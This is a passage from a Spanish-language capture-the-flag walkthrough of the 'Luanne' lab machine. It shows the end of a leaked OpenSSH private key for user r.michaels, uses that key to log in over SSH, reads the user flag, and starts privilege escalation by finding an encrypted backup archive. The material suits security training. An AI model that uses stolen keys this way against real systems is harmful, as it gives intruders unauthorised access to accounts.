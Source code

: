 ```bash
IH3BXK8fc7hLQw58o5kwdFakClbs/q9+Uc7lnDBmo33ytQ9pqNVuu6nxZqI2lG88QvWjPg
nUtRpvXwMi0/QMLzzoC6TJwzAn39GXAAAAwQDVMhwBL97HThxI60inI1SrowaSpMLMbWqq
189zIG0dHfVDVQBCXd2Rng15eN5WnsW2LL8iHL25T5K2yi+hsZHU6jJ0CNuB1X6ITuHhQg
QLAuGW2EaxejWHYC5gTh7jwK6wOwQArJhU48h6DFl+5PUO8KQCDBC9WaGm3EVXbPwXlzp9
9OGmTT9AggBQJhLiXlkoSMReS36EYkxEncYdWM7zmC2kkxPTSVWz94I87YvApj0vepuB7b
45bBkP5xOhrjMAAAAVci5taWNoYWVsc0BsdWFubmUuaHRiAQIDBAUG
-----END OPENSSH PRIVATE KEY-----
```

Ya con la `id_rsa` al estar abierto el puerto `22`, podemos conectarnos como `r.michaels`, sin proporcionar contraseña.


```bash
❯ nvim id_rsa
❯ chmod 600 id_rsa
❯ ssh -i id_rsa r.michaels@10.10.10.218
The authenticity of host '10.10.10.218 (10.10.10.218)' can't be established.
ECDSA key fingerprint is SHA256:KB1gw0t+80YeM3PEDp7AjlTqJUN+gdyWKXoCrXn7AZo.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.218' (ECDSA) to the list of known hosts.
Last login: Fri Sep 18 07:06:51 2020
NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020

Welcome to NetBSD!

luanne$ whoami
r.michaels
```

Visualizamos los archivos, del directorio y podemos leer la primera flag `user.txt`.

```bash
backups     devel       public_html user.txt
luanne$ cat user.txt                                                                                                                                                                  
ea5f0ce6a917b0be1eabc7f9218febc0
```


## ELEVACION DE PRIVILEGIOS [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Si listamos el directorio del usuario, obsevamos un directorio `backup`, que dentro contiene un archivo tar encrpytado.

```bash
luanne$ ls
backups     devel       public_html user.txt
luanne$ cd backups/                                                                                                                                                                   
luanne$ ls 
devel_backup-2020-09-16.tar.gz.enc
```
